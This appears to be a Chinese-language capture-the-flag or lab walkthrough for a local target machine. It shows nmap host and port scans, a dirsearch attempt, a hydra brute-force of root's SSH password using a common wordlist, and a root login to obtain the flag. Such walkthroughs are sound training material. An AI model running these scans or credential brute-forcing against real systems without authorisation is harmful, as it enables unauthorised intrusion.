





主机探测

```
nmap -sn 192.168.56.0/24
```



确定靶机ip：192.168.56.103


端口扫描

```
sudo nmap -sT -p- --min-rate 10000 192.168.56.103 -oN ./portscan
```



开放了22和80端口


访问80端口


尝试目录扫描

```
dirsearch -u http://192.168.56.103
```



无结果

更换字典同样无结果


利用hydra爆破ssh服务

```
hydra -l root -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt -F ssh://192.168.56.103 
```



得到root用户密码

```
root:simple
```

ssh登录后得到flag

```
ssh root@192.168.56.103
```

